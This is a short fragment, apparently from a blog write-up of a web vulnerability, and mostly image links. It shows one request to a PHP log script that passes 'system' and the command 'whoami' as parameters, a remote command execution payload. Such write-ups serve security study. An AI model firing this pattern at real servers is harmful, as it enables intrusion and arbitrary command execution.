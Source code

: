 ```
/tool/log/c.php?strip_slashes=system&host=whoami
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-28/19.png)
